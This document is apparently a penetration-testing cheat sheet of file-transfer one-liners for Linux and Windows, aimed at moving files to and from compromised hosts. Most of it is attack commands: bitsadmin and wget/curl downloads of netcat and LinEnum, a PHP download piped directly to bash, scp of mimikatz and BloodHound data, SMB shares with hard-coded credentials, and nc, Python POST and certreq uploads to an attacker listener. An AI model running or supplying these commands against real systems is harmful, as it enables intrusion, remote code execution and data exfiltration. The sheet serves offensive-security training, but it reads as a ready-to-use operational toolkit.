 # File Transfert - 

% linux, windows

## Download a file using Bitsadmin
```
bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe
```

## Download a file using Wget
```
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```

## Download a file using cURL
```
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

## Download a file using PHP
```
php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

## Upload a file using SCP
```
scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip
```

## Download a file using SCP
```
scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe
```

## Uses smbserver.py to create a share on a linux-based attack host. Can be useful when needing to transfer files from a target to an attack host.
```
python3 smbserver.py -smb2support CompData /home/<nameofuser>/Documents/
```

## Uses smbserver.py with password support (in case GPO blocks anonymous access) to create a share on a linux-based attack host. Can be useful when needing to transfer files from a target to an attack host.
```
python3 smbserver.py -username snovvcrash -password 'Passw0rd!' -smb2support share $(pwd)
```
## Mount disk on a drive
```
Cmd > net use Z: \\10.10.14.153\share /u:snovvcrash 'Passw0rd!'
```

## Python2 - urlretrieve
```
python2.7 -c 'import urllib;urllib.urlretrieve ("<URL>", "<file>")'
```
## Python3 - urlretrieve
```
python3 -c 'import urllib.request;urllib.request.urlretrieve("<URL>", "<file>")'
```

## PHP - download file file_get_content()
```markdown
php -r '$file = file_get_contents("<URL>"); file_put_contents("<file>",$file);'
```

## PHP - download file fopen()
```markdown
php -r 'const BUFFER = 1024; $fremote = fopen("<URL>", "rb"); $flocal = fopen("<file>", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

## PHP - Download and pipe it to bash
```
php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

## Ruby - download a file
```markdown
ruby -e 'require "net/http"; File.write("<file>", Net::HTTP.get(URI.parse("<URL>")))'
```
## Python - upload/POST a file
```
python3 -c 'import requests;requests.post("http://<IP>:<PORT>/upload",files={"files":open("<file>","rb")})'
```

## nc - send file to compomised host
```
nc -q 0 <IP> <PORT> < <file>
```

## nc - send file to compomised host
```
nc -l -p <PORT> -q 0 < <file>
```

## netcat - send file to compomised host
```
ncat --send-only  <IP> <PORT> < <file>
```

## nc - recv file from listening port
```
nc -l -p <PORT> > <file>
```

## netcat - recv file from listening port
```
netcat -l -p <PORT> --recv-only > <file>
```

## certreq - upload/POST file
```markdown
certreq.exe -Post -config <URL> <output_file>
```

## Bitstransfert - file donwload
```markdown
Import-Module bitstransfer; Start-BitsTransfer -Source "<URL>" -Destination "<output_file>"
```

## chrome user agent - download file
```
PS C:\htb> $UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
PS C:\htb> Invoke-WebRequest http://<IP>:<PORT>/<file> -UserAgent $UserAgent -OutFile "<outfile>"

`
